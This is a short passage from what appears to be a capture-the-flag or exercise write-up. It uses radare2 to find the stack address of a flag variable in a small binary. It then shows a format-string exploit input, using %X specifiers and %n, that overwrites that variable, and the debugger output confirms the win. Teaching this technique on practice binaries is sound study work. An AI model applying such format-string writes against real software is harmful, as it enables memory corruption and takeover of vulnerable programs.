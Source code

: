 To do this, we start radare and set a breakpoint (e.g. at `snprintf`) and look at the registers:
```
[0x080484db]> db  0x0804852c
[0x080484db]> dc
hit breakpoint at: 804852c
r_debug_select: 3200 1
[0x0804852c]> dr
eip = 0x0804852c
oeax = 0xffffffff
eax = 0xffffd3be
ebx = 0x00000000
ecx = 0xffffd3f0
edx = 0xffffd414
esp = 0xffffd3a0
ebp = 0xffffd3d8
esi = 0x00000002
edi = 0xf7faf000
eflags = 0x00000296
```

Since `local_3` is the flag and has the address `ebp-0xc`, we can calculate it easily -> `0xFFFFD3CC`

So, now we restart radare and try our manipulated input:

`r2 -Ad ./ex2 $(printf "BB\xCC\xD3\xFF\xFF")%%X%X%X%X%X%n`

When we run the program now with `dc`, we get this output:
`
[0xf7fdaa90]> dc
 was incorrect 
WIN 
r_debug_select: 3234 1
`

So we successfully managed to alter the flag-variable.

However, there are some downsides to this solution:
- when `/proc/sys/kernel/randomize_va_space` is not 0, the address changes, so it is not easy to find the right one
- this only works when the program is executed in radare2 (or for example `ltrace`), but to fix this is quiet complicated and not handled here.